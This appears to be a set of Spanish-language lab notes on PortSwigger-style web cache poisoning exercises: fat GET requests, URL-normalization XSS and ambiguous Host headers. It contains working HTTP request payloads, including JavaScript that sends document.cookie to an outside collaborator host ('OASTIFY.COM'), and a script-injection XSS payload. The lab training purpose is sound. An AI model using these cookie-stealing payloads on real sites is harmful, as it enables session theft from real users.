 ```js
GET/js/geolocate.js?callback=setCountryCookie&utm_content=felipeProof;callback=document.location='https://OASTIFY.COM?nuts='+document.cookie; HTTP/2
```

### LAB: Web cache poisoning via a fat GET request

Sencillamente tomaré el endpoint del callback y lo ajustaré para añadir una request GET Fat, y así el server caché interpretará el callback=setCountryCookie sin embargo el backend server interpretará el param body con callback=alert(1) ->

![[Pasted image 20250220120645.png]]

```js
GET /js/geolocate.js=callback=setCountryCookie HTTP/2
Host: ...
Acept-Languaje: ...
Content-Length: 24...

callback=alert(1)
```


### LAB: Web Cache Poisoning URL normalization `XSS` Poor `URL-encoding`

> El truco estaba en envenenar correctamente desde burp repeater y casi que al instante enviar esta url a la victima.
> El secreto enviar desde burp repeater la carga util para poder de que se mantuviera sin codificar a url y cargara el script, que luego almacenado en cache durante ese lapso de 10seg se lo podiamos enviar a la victima y le cargaría el payload.

Payload: 

```ruby
"con este funcionó aunque hubiera funcionado con los demás tambien."
https://ID-LAB.web-security-academy.net/random<script>alert(1)</script>foo

GET /random<script>alert(1)</script>foo HTTP/2
Host: ID-LAB.web-security-academy.net
etc ...
..
```

### LAB: Host Header Web Cache Poisoning Vía Ambiguous Request  `Cookie Stole`

```js
//Modificar el HOST, añadiendo un cache buster de test. 
GET /?cb=jsjsj HTTP/1.1
Host: web-security-academy.net
Host: Exploit-Server.net

//En exploit server -> store & deliver exploit to victim
document.location='https://OASTIFY.COM/?CacheCookies='+document.cookie;

//Actualizar el request al home. 
```
